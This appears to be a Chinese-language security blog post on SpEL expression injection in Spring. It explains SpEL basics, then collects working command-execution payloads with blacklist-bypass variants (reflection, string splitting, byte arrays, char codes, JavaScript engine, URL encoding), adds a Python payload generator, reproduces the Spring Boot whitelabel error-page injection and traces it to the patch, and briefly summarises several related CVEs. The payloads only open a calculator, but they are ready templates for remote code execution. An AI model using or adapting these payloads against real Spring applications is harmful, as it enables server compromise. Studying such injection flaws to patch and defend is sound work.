





## SpEL

 >**Spring Expression Language**（简称**SpEL**）是一个支持查询和操作运行时对象导航图功能的强大的表达式语言. 它的语法类似于传统EL，但提供额外的功能，最出色的就是函数调用和简单字符串的模板函数。

SpEL使用`#{}`作为定界符，所有在大括号中的字符都将被认为是SpEL表达式，在其中可以使用SpEL运算符、变量、引用bean及其属性和方法等。

### 简单例子

`person.java`

```java
public class Person {
    private String name;

    public void setName(String name){
        this.name  = name;
    }
    public void getName(){
        System.out.println("Your name : " + name);
    }
}
```

`Beans.xml`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
    http://www.springframework.org/schema/beans/spring-beans-3.0.xsd ">

    <bean id="person" class="com.example.springecho.start.Person">
        <property name="name" value="#{'Theoyu'} is #{600+66}" />
    </bean>

</beans>
```

`Main.java`

```java
public class Main {
    public static void main(String[] args) {
        ApplicationContext context = new ClassPathXmlApplicationContext("Beans.xml");
        Person person = (Person) context.getBean("person");
        person.getName();
    }
}
```

输出：`Your name : Theoyu is 666`

### Expression 

SpEL的用法有三种形式，一种是在注解@Value中；一种是XML配置；最后一种是在代码块中使用Expression。我们说一下后者。

>SpEL 在求表达式值时一般分为四步，其中第三步可选：
>
>1.创建解析器：**SpEL 使用 ExpressionParser 接口表示解析器，提供 SpelExpressionParser 默认实现；**
>
>2.解析表达式：使用 ExpressionParser 的 parseExpression 来解析相应的表达式为 Expression 对象。
>
>3.构造上下文：准备比如变量定义等等表达式需要的上下文数据。
>
>4.求值：通过 Expression 接口的 getValue 方法根据上下文获得表达式值。

```java
ExpressionParser parser = new SpelExpressionParser();
Expression express =  parser.parseExpression("('Hello' + ' Theoyu').concat(#end)");
EvaluationContext context = new StandardEvaluationContext();
context.setVariable("end", "!");
System.out.println(express.getValue(context));
```

在SpEL表达式中，使用`T(Type)`运算符会调用类的作用域和方法。换句话说，就是可以通过该类类型表达式来操作类。

常见Poc：@[**Mi1k7ea**](https://www.mi1k7ea.com/)

```java
// Runtime
T(java.lang.Runtime).getRuntime().exec("calc")
T(Runtime).getRuntime().exec("calc")

// ProcessBuilder
new java.lang.ProcessBuilder({'calc'}).start()
new ProcessBuilder({'calc'}).start()

******************************************************************************
// Bypass技巧

// 反射调用
T(String).getClass().forName("java.lang.Runtime").getRuntime().exec("calc")

// 同上，需要有上下文环境
#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc")

// 反射调用+字符串拼接，绕过如javacon题目中的正则过滤
T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})

// 同上，需要有上下文环境
#this.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})

// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符，Part1
  //calc
new java.lang.ProcessBuilder(new java.lang.String(new byte[]{99,97,108,99})).start()
  //open -a Caculator
  new java.lang.ProcessBuilder(new java.lang.String(new byte[]{111, 112, 101, 110, 32, 45, 97, 32, 67, 97, 108, 99, 117, 108, 97, 116, 111, 114})).start()

// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符，Part2
T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(99)))

// JavaScript引擎通用PoC
T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("s=[3];s[0]='cmd';s[1]='/C';s[2]='calc';java.la"+"ng.Run"+"time.getRu"+"ntime().ex"+"ec(s);")

T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval("xxx"),)

// JavaScript引擎+反射调用
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})),)

// JavaScript引擎+URL编码
// 其中URL编码内容为：
// 不加最后的getInputStream()也行，因为弹计算器不需要回显
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(java.net.URLDecoder).decode("%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%22%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29")),)

// 黑名单过滤".getClass("，可利用数组的方式绕过，还未测试成功
''['class'].forName('java.lang.Runtime').getDeclaredMethods()[15].invoke(''['class'].forName('java.lang.Runtime').getDeclaredMethods()[7].invoke(null),'calc')
```

生成poc：

```python
message = input('Enter message to encode:')

poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

poc += ')}'

print(poc)
```


## Error Page 表达式注入

### 前提

Springboot：

- 1.1.0-1.1.12
- 1.2.0-1.2.7
- 1.3.0

错误页面有用户可控输出值

### 复现

这里我采用springboot 1.2.0

```xml
<spring-boot.version>1.2.0.RELEASE</spring-boot.version>
```

controller：

```java
@RestController
public class Hello {
    @RequestMapping("hello")
    public String hello(String input){
        throw new IllegalStateException(input);
    }
}
```

Poc:

`?input=
${T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{111, 112, 101, 110, 32, 45, 97, 32, 67, 97, 108, 99, 117, 108, 97, 116, 111, 114}))}`



### 分析

先定位到`org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration.SpelView`，在`render`方法下打下断点：



先从**request**中读取了变量，然后存储到map中，以设置上下文属性。这里的**template**，就是错误页面模版，其中包含好几个SpEL表达式（表达式里map中的key）：

```
<html><body><h1>Whitelabel Error Page</h1><p>This application has no explicit mapping for /error, so you are seeing this as a fallback.</p><div id='created'>${timestamp}</div><div>There was an unexpected error (type=${error}, status=${status}).</div><div>${message}</div></body></html>
```

跟进`String result = this.helper.replacePlaceholders(this.template, this.resolver);`



这里while循环会一直处理**template**中有前缀`${`的字符串，提取出来，然后`placeholderResolver.resolvePlaceholder(placeholder)`去解析map中相应key所对应的value。

~~其实分析了log4j2后，感觉这类因为字符串format所触发的漏洞都很类似。~~

在`resolvePlaceholder()`中，从context的map中拿到message对应的value，也就是我们构造的poc，同时这里还会经过一次`htmlEscape()`，预防xss，这也解释了为什么我们构造`open -a Calculator`字符串需要用到`new java.lang.String(new byte[]{111, 112, 101, 110, 32, 45, 97, 32, 67, 97, 108, 99, 117, 108, 97, 116, 111, 114})`



之后，因为我们构造的语句是包裹在`${}`中的，所以还会经过一轮`resolvePlaceholder()`，也就到了最终的sink点



### 修复

[官方补丁](https://github.com/spring-projects/spring-boot/commit/edb16a13ee33e62b046730a47843cb5dc92054e6)

新增了一个`NonRecursivePropertyPlaceholderHelper`类用以防止递归解析。

简单来说就是每次解析表达式前，判断是默认的解析，还是进入递归的解析，后者直接return null。

另外在2+版本以上好像springboot取消了Whitelabel Error Page报错输出，也可能是我没找着... 如果有知道的师傅还请指教。

## CVE-2016-4977

**Spring Security OAuth2 远程命令执行漏洞（CVE-2016-4977）**

>Spring Security OAuth 是为 Spring 框架提供安全认证支持的一个模块。在其使用 whitelabel views 来处理错误时，由于使用了Springs Expression Language (SpEL)，攻击者在被授权的情况下可以通过构造恶意参数来远程执行命令。

使用了**whitelabel views**，本质上和上面介绍的一样，不过多阐述。

## CVE-2017-4971

**Spring WebFlow 远程代码执行漏洞（CVE-2017-4971）**

>Spring WebFlow 是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其 2.4.x 版本中，如果我们控制了数据绑定时的field，将导致一个SpEL表达式注入漏洞，最终造成任意命令执行。

## CVE-2017-8046

**Spring Data Rest 远程命令执行漏洞（CVE-2017-8046）**

>Spring Data REST是一个构建在Spring Data之上，为了帮助开发者更加容易地开发REST风格的Web服务。在REST API的Patch方法中（实现[RFC6902](https://tools.ietf.org/html/rfc6902)），path的值被传入`setValue`，导致执行了SpEL表达式，触发远程命令执行漏洞。

## CVE-2018-1270

**Spring Messaging 远程命令执行漏洞（CVE-2018-1270）**

>spring messaging为spring框架提供消息支持，其上层协议是STOMP，底层通信基于SockJS，
>
>在spring messaging中，其允许客户端订阅消息，并使用selector过滤消息。selector用SpEL表达式编写，并使用`StandardEvaluationContext`解析，造成命令执行漏洞。

## CVE-2018-1273

## CVE-2022-22947